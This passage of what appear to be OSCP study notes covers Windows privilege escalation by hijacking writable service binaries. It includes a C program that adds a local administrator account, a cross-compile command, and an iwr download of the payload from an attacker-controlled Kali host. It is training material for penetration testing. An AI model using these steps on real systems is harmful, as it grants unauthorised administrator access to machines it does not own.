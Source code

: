 <li>Can miss stuff, and knowing OSCP it will. </li>
</ul>
</li>
<li>PowerUp powershell script<ul>
<li><a href="https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1">https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1</a></li>
</ul>
</li>
<li>Seatbelt<ul>
<li><a href="https://github.com/GhostPack/Seatbelt">https://github.com/GhostPack/Seatbelt</a></li>
</ul>
</li>
</ul>
<h3 id="leveraging-windows-services">Leveraging Windows Services</h3>
<p><strong>Hijacking Service Binaries</strong></p>
<ul>
<li><code>Get-CimInstance</code>to query services of WMI (Windows Management Instrumentation) class<ul>
<li><code>Get-CimInstance -ClassName win32_service | Select Name,State,Pathname | Where-Object {$_.State -like &#39;Running&#39;}</code></li>
<li>PowerUp.ps1 (<a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1">https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1</a>) can also identify these (among others)</li>
</ul>
</li>
<li>Check the permissions of the service binaries with <code>icacls</code> or <code>Get-ACL</code><ul>
<li><code>icacls &quot;{executable path}&quot;</code></li>
<li>F - Full access</li>
<li>M - Modify Access</li>
<li>RX - Read/execute access (this is too low)</li>
<li>R - Read-only access</li>
<li>W - Write only access</li>
</ul>
</li>
<li><p>If a user has full control over a binary with higher permissions (like a MySQL daemon), we can edit the executable and it will be run with higher permissions</p>
<ul>
<li>This can occur due to full permissions being an easy solution for sysadmins</li>
<li>This binary can be as simple as creating an administrative user with <code>system()</code></li>
<li><code>sudo apt install mingw-w64</code></li>
<li><code>x86_64-w64-mingw32-gcc newuser.c -o newuser.exe</code><ul>
<li><code>python3 -m http.server</code></li>
<li><code>iwr -uri http://{kali_IP}:8000/newuser.exe -Outfile newuser.exe</code>
```
#include <stdlib.h>
int main ()
{
int i;</li>
</ul>
</li>
</ul>
<p>i = system (&quot;net user kali Password123! /add&quot;);
i = system (&quot;net localgroup administrators kali /add&quot;);
i = system (&quot;net localgroup &quot;Remote Desktop Users&quot; kali /add&quot;);</p>
<p>return 0;
}
```</p>
</li>
<li>Then, move the normal executable out from it&#39;s usual location, move ours in, and then figure out how to restart the service (so it uses the exe)</li>
<li>Restarting the service<ul>
<li>Could be as simple as <code>net stop {service}</code>, but access will likely be denied</li>
```